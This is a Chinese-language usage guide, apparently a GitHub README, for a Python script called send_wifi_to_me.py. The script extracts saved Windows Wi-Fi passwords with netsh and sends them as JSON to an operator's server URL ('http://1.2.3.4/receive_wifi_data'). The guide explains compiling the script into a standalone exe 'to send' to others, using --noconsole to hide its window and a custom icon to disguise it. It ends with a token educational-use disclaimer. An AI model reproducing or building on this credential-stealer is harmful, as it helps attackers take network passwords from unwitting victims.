 # `send_wifi_to_me.py` 使用帮助文档

## 概述

`send_wifi_to_me.py` 是一个 Python 脚本，用于获取 Windows 系统中保存的无线网络密码，并将这些密码发送到指定的服务器。脚本包括以下功能：

1. 获取系统中的所有无线网络配置文件。
2. 提取每个无线网络的密码。
3. 将密码信息保存到本地文件。
4. 将密码信息发送到指定的服务器。

## 功能

1. **获取无线网络配置文件**：使用 `netsh` 命令获取所有保存的无线网络配置文件。
2. **获取无线网络密码**：根据配置文件名称获取对应的无线网络密码。
3. **保存密码到文件**：将每个无线网络的名称和密码保存到本地文本文件中。
4. **发送数据到服务器**：将无线网络名称和密码信息以 JSON 格式发送到指定的服务器。

## 使用方法

1. **准备工作**：

   - 确保安装了 `requests` 库：

     ```
     bash
     复制代码
     pip install requests
     ```

2. **配置服务器 URL**：

   - 在脚本中找到以下行，并将其替换为你的 VPS 接收数据的 URL：

     ```
     python
     复制代码
     url = "http://1.2.3.4/receive_wifi_data"
     ```

3. **运行脚本**：

   - 在 Windows 上以管理员身份运行脚本，以确保能够执行 `netsh` 命令并获取无线网络密码：

     ```
     bash
     复制代码
     python send_wifi_to_me.py
     ```

4. **查看结果**：

   - 脚本将密码信息保存到 `1.txt` 文件中，并将文件中的数据发送到指定的服务器。
   - 脚本运行结束后，控制台会显示操作结果信息。

5. **可以打包成exe发送**

   ### 步骤 1：安装 PyInstaller

   首先，你需要在你的 Python 环境中安装 `PyInstaller`。

   ```
   pip install pyinstaller
   ```

   ### 步骤 2：使用 PyInstaller 打包脚本

   在终端或命令提示符中，导航到 `send_wifi_to_me.py` 所在的目录，然后运行以下命令：

   ```
   pyinstaller --onefile send_wifi_to_me.py
   ```

   `--onefile` 选项会将所有依赖打包到一个单独的 `.exe` 文件中。

   ### 步骤 3：找到生成的 .exe 文件

   打包完成后，生成的 `.exe` 文件会保存在 `dist` 目录中。你可以在该目录下找到 `send_wifi_to_me.exe`。

   ### 其他注意事项

   - **外部文件**：如果脚本依赖于外部文件或配置文件，请确保这些文件在打包后也可以正确访问。

   - **隐藏控制台**：如果你不希望在运行 `.exe` 文件时弹出命令行窗口，可以使用 `--noconsole` 选项：

     ```
     pyinstaller --onefile --noconsole send_wifi_to_me.py
     ```

   - **图标**：你也可以使用 `--icon` 选项为你的 `.exe` 文件添加图标：

     ```
     pyinstaller --onefile --icon=your_icon.ico send_wifi_to_me.py
     ```


## 注意事项

- **管理员权限**：脚本需要管理员权限来执行 `netsh` 命令以获取无线网络密码。
- **服务器配置**：确保服务器上的接收端能够处理接收到的 JSON 数据。
- **安全性**：处理和存储无线网络密码时，请确保采取适当的安全措施。

## 版权和免责声明

- **脚本创建者**：iknow
- **免责声明**：本脚本仅用于教育目的，确保在合法和道德的范围内使用。请遵守当地法律和隐私政策。